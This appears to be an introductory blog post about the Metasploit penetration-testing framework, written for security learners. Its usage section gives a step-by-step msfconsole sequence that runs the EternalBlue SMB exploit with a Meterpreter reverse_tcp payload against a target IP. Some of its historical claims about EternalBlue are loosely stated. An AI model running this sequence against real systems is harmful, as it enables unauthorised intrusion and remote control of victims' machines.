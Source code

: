 ```yaml
---
layout: post
title: "MetaSpoilt"
date: "2023-11-21"
published: true
---
```



Metasploit is a powerful open-source penetration testing framework its an essential tool for security professionals. Originally developed by H.D. Moore in 2003, Metasploit has since evolved into a comprehensive platform that facilitates the discovery, exploitation, and validation of vulnerabilities in various systems.

## What is Metasploit?

Metasploit provides a wide range of tools and resources for penetration testers, security researchers, and information security professionals. It simplifies the process of identifying and exploiting vulnerabilities, allowing users to assess the security of networks, applications, and systems in a controlled environment.

### Key Features of Metasploit

1. **Exploit Development:** Metasploit includes a vast collection of pre-built exploits, payloads, and auxiliary modules that assist in the development and execution of attacks.

2. **Payloads:** The framework supports a variety of payloads, enabling testers to deliver malicious code or actions to target systems. Payloads range from simple command execution to more advanced functionalities like Meterpreter sessions.

3. **Post-Exploitation:** Metasploit goes beyond just exploitation by providing tools for post-exploitation activities. This includes gathering information, privilege escalation, lateral movement, and maintaining access to compromised systems.

4. **Database Integration:** Metasploit integrates with databases to store and manage information about discovered vulnerabilities, exploited systems, and ongoing penetration tests. This facilitates efficient reporting and analysis.

## Getting Started with Metasploit

### Installation

Installing Metasploit is straightforward, and it is compatible with various operating systems, including Linux, Windows, and macOS. The official Metasploit website provides detailed installation instructions for different platforms.

[MetaSpoilt](https://www.metasploit.com/)

### Basic Usage

Once installed, users can launch the Metasploit console to interact with the framework. The command-line interface allows for the execution of various commands and modules.

```markdown
$ msfconsole
```

To demonstrate the simplicity of Metasploit, let's consider a basic scenario. Suppose you want to exploit a known vulnerability such as eternal blue,all you need is the ip address of the target machine. (EternalBlue is a computer exploit developed by the equation group or nationail security agency It was devolped around 2011 but eventually got leaked by the Shadow Brokers hacker group on April 14, 2017 it was designed to exploit a zero-day vulnerability in every version of Windows prior to Windows 8) 

Metasploit simplifies this process using pre-built modules.

```markdown
msf6 > search eternalblue
```
```markdown
msf6 > use exploit/windows/smb/ms17_010_eternalblue
```
```markdown
msf6 exploit(windows/smb/ms17_010_eternalblue) > options
```
```markdown
msf6 exploit(windows/smb/ms17_010_eternalblue) > set rhosts (targets_ip)
```
```markdown
msf6 exploit(windows/smb/ms17_010_eternalblue) > set lhost (listener_ip)
```
```markdown
msf6 exploit(windows/smb/ms17_010_eternalblue) > set payload windows/x64/meterpreter/reverse_tcp
```
```markdown
msf6 exploit(windows/smb/ms17_010_eternalblue) > run
```

This is a basic example, and Metasploit offers an extensive range of modules for different services, operating systems, and vulnerabilities.

### Conclusion

Metasploit remains an invaluable tool in the realm of cybersecurity, aiding security professionals in identifying and addressing vulnerabilities. Its open-source nature, active community, and continuous development make it a go-to choice for ethical hacking and penetration testing.
